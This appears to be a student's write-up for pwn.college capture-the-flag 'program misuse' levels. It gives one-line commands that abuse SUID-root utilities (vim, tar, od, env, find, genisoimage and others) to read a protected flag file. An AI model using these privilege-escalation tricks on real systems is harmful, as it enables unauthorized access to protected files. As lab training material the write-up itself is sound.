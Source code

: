 This module shown me a lot of common command tools.

# lvl 1~22
> Lets you directly read the flag!
### lvl 1
Remember to run `/challenge/babysuid` first.
`/challenge/bin/cat /flag`

### lvl 2
`/challenge/bin/more /flag`

### lvl 3
`echo $(/challenge/bin/less /flag)`

### lvl 4
`/challenge/bin/tail /flag`

### lvl 5
`/challenge/bin/head /flag`

### lvl 6
`/challenge/bin/sort /flag`

---
> Shows you that an over-privileged editor is a very powerful tool!
Remember to use `man`.
### lvl 7
I like vim. Use `:q!` to quit.  
`/challenge/bin/vim /flag`

### lvl 8
I haven't use emacs. But I know `ctrl+z`.  
`/challenge/bin/emacs /flag`

### lvl 9
nano is good.  
`/challenge/bin/nano /flag`

---
> Requires you to understand their output to derive the flag from it!
### lvl 10
`/challenge/bin/rev /flag | /challenge/bin/rev`

### lvl 11
regex is helpful.  
`/challenge/bin/od -c /flag | perl -pe 's/\s|^\d*//g'`

### lvl 12
`/challenge/bin/hd /flag | perl -pe 's/^.*?\|//g; s/\|\s$//g'`

### lvl 13
It's good not to use regex.  
`/challenge/bin/xxd /flag | xxd -r`

### lvl 14
`/challenge/bin/base32 /flag | base32 -d`

### lvl 15
`/challenge/bin/base64 /flag | base64 -d`

### lvl 16
`/challenge/bin/split /flag` and the flag is at a file named `xaa`, so `cat xaa; rm $_`.

---
> Forces you to understand different archive formats!
But I can always trust vim. It can open `.zip`, `.a`, `.tar` files, etc.
### lvl 17
`/challenge/bin/gzip /flag -c | gzip -dc`

### lvl 18
`/challenge/bin/bzip2 -c /flag | bzip2 -dc`

### lvl 19
I can't find better one-line writeup.  
`/challenge/bin/zip draft.zip /flag && unzip draft.zip && cat flag && rm draft.zip flag`

### lvl 20
`/challenge/bin/tar -cf tmp.tar /flag && tar -Oxf tmp.tar && rm tmp.tar -f`

### lvl 21
`/challenge/bin/ar r tmp.a /flag && ar p tmp.a && rm tmp.a -f`

### lvl 22
`echo "/flag" | cpio -o`

# lvl 23
Untill now I know that .iso file is just a common archive of files, which can be opened by winrar.

This is really a big challenge.
I just readthe all content in the man page of `genisoimage` and find nothing to get the flag.

When I input `/challenge/bin/genisoimage /flag`, only this comes up:
```err.log
hacker@program-misuse~level23:~/program_misuse$ /challenge/bin/genisoimage -o tmp.iso /flag
/challenge/bin/genisoimage: Permission denied. File /flag is not readable - ignoring
```

I think it's impossible for me to just read the man page to find the resolution.

Finally I go to find the answer on github.
I find a senior who took cse466-f2023.
He/She used `strace` to find that the process of `genisoimage` automatically change its eUID.

And I implement it:
```sh
hacker@program-misuse~level23:~/program_misuse$ strace /challenge/bin/genisoimage /flag 2> out.log
hacker@program-misuse~level23:~/program_misuse$ cat out.log | grep uid | head
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
getuid()                                = 1000
setreuid(-1, 1000)                      = 0
getuid()                                = 1000
```
Maybe it's because there is no suid-debug file so the process can't set eUID to 0.

And the senior used brute force to complete.
```
for op in $(genisoimage --help 2>&1 | grep FILE | awk '{print $1}'); do /challenge/bin/genisoimage $op /flag; done 2>&1 | grep pwn.college
```

---
> Enables you to read flags by making them execute other commands!

### lvl 24
`env` display or change the environment variables.
`/challenge/bin/env -i cat /flag`

### lvl 25
The answer is told in the video.
`find /flag -exec cat '{}' \;`
